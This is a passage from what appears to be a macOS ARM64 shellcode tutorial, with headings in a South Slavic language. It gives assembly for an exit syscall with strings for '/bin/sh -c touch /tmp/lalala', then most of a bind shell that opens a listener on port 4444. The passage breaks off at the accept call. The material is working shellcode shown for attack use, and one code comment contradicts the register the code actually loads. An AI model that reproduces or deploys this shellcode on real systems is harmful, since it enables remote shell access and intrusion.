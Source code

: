 ```armasm
mov x16, #1            ; Load the syscall number for exit (1) into x8
mov x0, #0             ; Set exit status code to 0
svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```

**Bind shell**

Bind shell sa [https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s) na **portu 4444**

```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_bind:
/*
* bind(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 0.0.0.0 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #104
svc  #0x1337

call_listen:
// listen(s, 2)
mvn  x0, x3
lsr  x1, x2, #3
mov  x16, #106
svc  #0x1337

call_accept:
```